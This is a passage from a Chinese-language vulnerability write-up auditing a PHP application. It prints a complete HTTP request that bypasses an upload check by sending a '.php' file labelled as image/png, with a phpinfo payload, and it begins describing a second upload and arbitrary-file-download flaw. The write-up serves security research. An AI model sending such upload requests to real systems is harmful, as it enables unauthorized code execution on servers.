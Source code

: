 而鉴权的代码是这样子的

[![](assets/1709083162-3adbe4110c8c6d172c76c73257ae6e77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110303-b8b982ba-d51c-1.png)

最终报文

```bash
POST /index.php/salary/record/upload HTTP/1.1
Host: xxx
Content-Length: 196
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 上传 2 + 任意文件下载

一样是全局搜索函数​`move_uploaded_file`​

找到`\web\static\lib\weboffice\js\OfficeServer.php`​这个文件 (因为是在`static`​目录下于是就尝试访问下 (因为很有可能是静态的资源可以直接访问))
